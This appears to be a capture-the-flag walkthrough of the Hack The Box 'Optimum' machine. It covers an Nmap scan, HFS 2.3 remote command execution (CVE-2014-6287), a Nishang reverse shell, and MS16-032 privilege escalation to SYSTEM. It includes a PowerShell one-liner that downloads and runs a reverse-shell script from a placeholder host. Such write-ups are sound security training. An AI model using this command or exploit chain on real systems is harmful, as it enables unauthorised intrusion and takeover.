

Box author | 

<!--more-->

## Nmap
First, let’s scan the IP address by using the Nmap

```sql
# Nmap 7.92 scan initiated Fri Jun 10 19:25:32 2022 as: nmap -sC -sV -vv -p- --min-rate=10000 -oN nmap/optimum_all 10.10.10.8
Nmap scan report for 10.10.10.8
Host is up, received echo-reply ttl 127 (0.40s latency).
Scanned at 2022-06-10 19:25:32 +08 for 25s
Not shown: 65534 filtered tcp ports (no-response)
PORT   STATE SERVICE REASON          VERSION
80/tcp open  http    syn-ack ttl 127 HttpFileServer httpd 2.3
| http-methods: 
|_  Supported Methods: GET HEAD POST
|_http-title: HFS /
|_http-favicon: Unknown favicon MD5: 759792EDD4EF8E6BC2D1877D27153CB1
|_http-server-header: HFS 2.3
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Jun 10 19:25:57 2022 -- 1 IP address (1 host up) scanned in 24.94 seconds
```

Interesting, the only port open is `80` and the banner says `HttpFileServer/HFS 2.3`

## HFS (HttpFileServer)

**HTTP File Server**, otherwise known as `HFS`, is a free web server specifically designed for publishing and sharing files. </br>
It's different from classic file sharing because it uses web technology to be more compatible with today's Internet. _resource: [wikipedia](https://en.wikipedia.org/wiki/HTTP_File_Server)_


I navigate to the `port 80` through the web browser. WOW! it's just a simple webpage and its also can search files,? I believed. Well, this box is really old by the time I'm writing this. Like always I'm asking google about this information and waiting for the result to come in.


### CVE-2014-6287
Upon searching on the internet. I found this `HFS` version is vulnerable to `RCE (remote command execution)` and got assigned to a [CVE-2014-6287](https://nvd.nist.gov/vuln/detail/CVE-2014-6287). I also found this [article](https://www.kb.cert.org/vuls/id/251276) with a payload sample.


The `findMacroMarker` function in `parserLib.pas` in Rejetto HTTP File Server (aks HFS or HttpFileServer) 2.3x before 2.3c allows remote attackers to execute arbitrary programs via a `%00` sequence in a search action.


### Burpsuite
I already have the [payload sample](https://www.kb.cert.org/vuls/id/251276) and I'm gonna try it out with simple command. The command is `whoami`. First, I intercept the `search` endpoint with [burpsuite](https://portswigger.net/burp). Then, send the request through the repeater and put the payload in the search query. However, it didn't display any output from my `whoami` command. Then, I remembered about the `ping` command. So, I try to ping myself to see, if I get the connection through the box.




## Nishang: Invoke-PowerShellTcp.ps1

The command runs successfully, with this information, I'm gonna try to gain a foothold on the box with [nishang](https://raw.githubusercontent.com/samratashok/nishang/master/Shells/Invoke-PowerShellTcp.ps1) reverse shell script. Check this [blog](https://shafiqaiman.com/posts/htb/responder/#nishang-invoke-powershelltcpps1)  where I configure the reverse shell script.

First, I created a new directory called `www` and put the reverse shell script in the same directory. Then, I'm hosting the [python](https://www.python.org/downloads/) web server in port `80` and run the `nc` listener with `rlwrap` since this is a `Windows` machine. Back to the burpsuite, I use this [payload](https://shafiqaiman.com/posts/htb/responder/#nishang-invoke-powershelltcpps1), which is downloading the reverse shell script and executing it. `Don't forget the (dot) at the end`. 


NICE!. Finally, I'm in as a `kostas` user. Since this is an old machine from [HacktheBox](https://app.hackthebox.com/), I'm gonna assume they are plenty of exploits on the internet waiting to be found. Well, I'm going to check this machine system with the `systeminfo` command first.


### MS16-032 : CVE-2016-0099

This is a `Windows Server 2012R2` version `6.3.9600 N/A Build 9600` and the architecture type is `64 bit`. Upon searching this version on the net. I realize this version is vulnerable to a lot of things. However, I'm gonna abuse the [Secondary Logon Service](https://googleprojectzero.blogspot.com/2016/03/exploiting-leaked-thread-handle.html) to gain the `SYSTEM` shell that is dubbed as [MS16-032](https://docs.microsoft.com/en-us/security-updates/securitybulletins/2016/ms16-032) or [CVE-2016-0099](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2016-0099).

### EmpireProject: Invoke-MS16032.ps1

I manage to find this [exploit](https://www.exploit-db.com/exploits/39719) in the [exploit-db](https://www.exploit-db.com/). However, the exploit itself didn't work in my case because it's open the `cmd` through `GUI` and I don't have access to the `GUI` instance. Luckily, I found the [powershell exploit](https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/privesc/Invoke-MS16032.ps1) that allows me to privesc from the [EmpireProject](https://github.com/EmpireProject/Empire).


Is a post-exploitation framework that includes a pure-PowerShell2.0 Windows agent, and a pure Python 2.6/2.7 Linux/OS X agent. </br>
It is the merge of the previous PowerShell Empire and Python EmPyre projects. </br>
_resource: [EmpireProject github](https://github.com/EmpireProject/Empire)_


So, I'm gonna download it with the `wget` command. Then, edit the file by putting the **example** in the last line also edit the `URL` to point into my python server with another reverse shell called `yeet.ps1`

_Note: the example start with **Invoke-MS16-032**. However, the function is named **Invoke-MS16032**_


### Windows: sysnative

I tried a bunch of times to run this exploit but the result is nothing. This machine is `64` bit and also the exploit is tested on a `64` bit `2k12R2` server. Now, I'm dumbfounded. Then, I realize maybe the powershell itself running on another architecture. So, I [check](https://stackoverflow.com/questions/8588960/determine-if-current-powershell-process-is-32-bit-or-64-bit/8589649#8589649), and it's confirmed. The powershell is running on `32` bit.


With quick googling, I found this [answer](https://stackoverflow.com/questions/19055924/how-to-launch-64-bit-powershell-from-32-bit-cmd-exe/19056011#19056011) on [stackoverflow](https://stackoverflow.com/). I need to run the powershell in the `sysnative` directory to get the `64` bit version. Well, I need to restart over again. So, back again to the burpsuite and put this as the payload. Then, catch the shell with `nc`.

```powershell
C:\Windows\sysnative\WindowsPowerShell\v1.0\powershell.exe "IEX(New-Object Net.WebClient).DownloadString('http://example.com/Invoke-PowerShellTcp.ps1')"
```

When I checked the powershell architecture indeed it is running on 	`64` bit. YES!!!


## Windows: Privilege Escalation

Now, I'm executing the [privesc exploit](https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/privesc/Invoke-MS16032.ps1) once again. My python server shows the request from the file called `Invoke-MS16032.ps1` followed with `yeet.ps1` and finally, I've got a shell as `system`.

